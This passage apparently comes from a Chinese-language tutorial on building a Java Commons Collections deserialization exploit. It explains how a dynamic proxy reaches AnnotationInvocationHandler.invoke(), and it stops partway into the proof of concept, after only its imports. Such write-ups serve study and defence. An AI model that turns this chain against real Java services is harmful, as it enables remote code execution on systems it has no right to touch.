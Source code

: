 ```java

    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        if (method.getName().equals("get")) {
            return "dotast";
        }
        System.out.println("success");
        return method.invoke(this.map,args);
    }
}
```

![image-20220922232016142](images/image-20220922232016142.png)

从结果中可以看到，动态代理的对象执行方法的时候，转发到了实现接口`InvocationHandler`的`Demo`类里并执行`invoke()`方法，把我们存储的值`admin`改成了`dotast`，并打印出`success`字符串。

而`AnnotationInvocationHandler`类正好是实现了`InvocationHandler`接口的类，因此我们可以通过动态代理的方式去调用到`AnnotationInvocationHandler`类的`invoke()`方法
![image-20220922232441082](images/image-20220922232441082.png)

因此我们可以写出初步的 POC：
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

```